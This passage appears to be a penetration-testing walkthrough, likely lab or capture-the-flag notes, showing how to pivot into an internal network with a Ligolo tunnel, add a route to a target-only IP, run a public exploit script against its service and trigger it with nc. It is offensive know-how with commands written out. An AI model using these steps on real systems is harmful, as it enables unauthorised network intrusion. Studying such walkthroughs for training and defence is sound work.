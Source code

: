 

2. 🧵 Set up TUN Interface on Attacker Box

Create a TUN interface on your attacker box:

sudo ip tuntap add user $(whoami) mode tun ligolo0
sudo ip link set ligolo0 up

Now, in the Ligolo console on your attacker box:

ligolo> tun mode
ligolo> tun start

This will start the actual network-level tunnel and set up an internal route.
3. ➕ Add a Route for the Target-Only IP

The 240.0.0.1 IP is only accessible from within the target’s network. So, you need to route it through the Ligolo tunnel:

sudo ip route add 240.0.0.1/32 dev ligolo0

You can test with:

ping 240.0.0.1
curl http://240.0.0.1:8000

You should see the connection go through.

If ping doesn’t work but the web service is up, curl or nc may still succeed — ICMP might be blocked.
4. 🚀 Run the Exploit Script

Now that traffic to 240.0.0.1 is routing through the target via Ligolo:

python3 46501.py 240.0.0.1 8000

This will send the exploit payload to the service.
5. 🔥 Trigger the Exploit

Then, execute the trigger:

nc -v 192.168.143.150 5000 -z

This should activate the vulnerability you targeted.